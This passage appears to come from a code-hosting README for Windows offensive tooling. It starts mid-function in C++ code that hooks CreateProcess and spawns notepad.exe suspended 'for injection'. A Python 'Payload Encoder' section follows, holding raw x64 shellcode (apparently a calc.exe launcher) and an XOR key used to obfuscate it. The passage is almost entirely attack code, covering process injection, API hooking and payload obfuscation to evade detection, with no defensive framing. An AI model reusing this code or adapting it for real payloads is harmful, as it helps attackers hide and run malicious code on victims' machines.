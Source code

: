 ```cpp
    {
        printf("Failed to install CreateProcess hook.\n");
        return -1;
    }

    // Create a benign process in suspended mode (like notepad)
    STARTUPINFOA si = { sizeof(STARTUPINFOA) };
    PROCESS_INFORMATION pi;

    if (!CreateProcessA(NULL, "C:\\Windows\\System32\\notepad.exe", NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi))
    {
        printf("Failed to create process for injection. Error: %d\n", GetLastError());
        return -1;
    }

    WaitForSingleObject(pi.hProcess, INFINITE);  // Wait for the process to complete
    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);

    if (!UninstallCreateProcessHook())
    {
        printf("Failed to uninstall CreateProcess hook.\n");
        return -1;
    }

    printf("Press any key to exit...\n");
    getchar();

    return 0;
}

```

#### Payload Encoder:

```py
# XOR encoding script with rotation for obfuscation

shellcode = (
    b"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
    b"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
    b"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
    b"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
    b"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
    b"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
    b"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
    b"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
    b"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
    b"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
    b"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
    b"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
    b"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
    b"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
    b"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
    b"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
    b"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
    b"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
    b"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
    b"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00"
)


xor_key = 0xAA  # XOR key for encoding/decoding
```